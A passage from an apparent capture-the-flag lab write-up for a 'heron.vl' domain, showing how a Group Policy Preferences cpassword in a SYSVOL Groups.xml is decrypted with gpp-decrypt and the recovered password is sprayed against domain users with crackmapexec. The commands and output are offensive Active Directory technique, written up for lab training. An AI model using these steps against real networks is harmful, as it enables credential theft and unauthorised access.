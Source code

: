 It seems that there is an XML file that we have read access to on the `SYSVOL` share. We'll pull this down to our local machine to see if in contains any relevant information.

```
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><Group clsid="{6D4A79E4-529C-4481-ABD0-F5BD7EA93BA7}" name="Administrators (built-in)" image="2" changed="2024-06-04 15:59:45" uid="{535B586D-9541-4420-8E32-224F589E4F3A}"><Properties action="U" newName="" description="" deleteAllUsers="0" deleteAllGroups="0" removeAccounts="0" groupSid="S-1-5-32-544" groupName="Administrators (built-in)"><Members><Member name="HERON\svc-web-accounting" action="ADD" sid="S-1-5-21-1568358163-2901064146-3316491674-24602"/><Member name="HERON\svc-web-accounting-d" action="ADD" sid="S-1-5-21-1568358163-2901064146-3316491674-26101"/></Members></Properties></Group>
        <User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="Administrator (built-in)" image="2" changed="2024-06-04 16:00:13" uid="{F3B0115E-D062-46CC-B10C-C3EB743C824A}"><Properties action="U" newName="_local" fullName="" description="local administrator" cpassword="[...snip...]" changeLogon="0" noChange="0" neverExpires="1" acctDisabled="0" subAuthority="RID_ADMIN" userName="Administrator (built-in)"/></User>
</Groups>
```

The file itself seems to be configuring two of the domain user objects, specifically `svc-web-accounting` and `svc-web-accounting-d`. It seems that there also seems to be an encoded password for the "local administrator" user at the bottom of the file.

I've seen this `cpassword` term before in other exploits that I've done in the past, and I do recall a tool that we can use to crack this password specifically. That tool is [gpp-decrypt](https://github.com/t0thkr1s/gpp-decrypt). I'd tried to interpret the code a bit before doing it to understand what it was exactly doing. It seems that script takes the password and adds base64 padding to it before decoding the entire base64 string based on a specific AES key that is used for the `gpp` algorithm.

We can use the Python POC without needing to use the setup script within the repository, as seen below.

```
└─$ python3 gpp-decrypt/gpp-decrypt.py -f Groups.xml 

                               __                                __ 
  ___ _   ___    ___  ____ ___/ / ___  ____  ____  __ __   ___  / /_
 / _ `/  / _ \  / _ \/___// _  / / -_)/ __/ / __/ / // /  / _ \/ __/
 \_, /  / .__/ / .__/     \_,_/  \__/ \__/ /_/    \_, /  / .__/\__/ 
/___/  /_/    /_/                                /___/  /_/         

[ * ] Username: Administrator (built-in)
[ * ] Password: [...snip...]
```

This returns a password for the built-in Administrator user (which is not the Administrator of the DC), so we'll run this against our user list to see if the password corresponds to any users.

Quick note, make sure to use the actual username for `svc-web-accounting-d` in the user list, as the LDAP command we used from before takes their display name which is `svc-web-accounting-dev`.

```
└─$ proxychains4 crackmapexec smb 10.10.128.117 -u full_ul.txt -p '(BUILT-IN ADMINISTRATOR PASSWORD)'
......
SMB         10.10.128.117   445    MUCDC            [+] heron.vl\svc-web-accounting-d:[...snip...]
```
